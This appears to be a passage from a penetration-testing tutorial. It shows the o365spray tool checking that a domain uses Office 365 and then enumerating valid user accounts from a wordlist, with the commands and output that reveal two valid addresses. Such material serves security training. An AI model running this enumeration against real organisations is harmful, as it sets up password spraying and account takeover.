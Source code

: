 [O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments). Let's first validate if our target domain is using Office 365.

#### O365 Spray

```bash
python3 o365spray.py --validate --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:46:40

>----------------------------------------<

[2022-04-13 09:46:40,344] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz
```

```bash
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
            *** O365 Spray ***             

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > enum           :  True
   > userfile       :  users.txt
   > enum_module    :  office
   > rate           :  10 threads
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:48:03

>----------------------------------------<

[2022-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
[2022-04-13 09:48:08,244] INFO : [VALID] lewen@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : [VALID] juurena@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : 

[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```
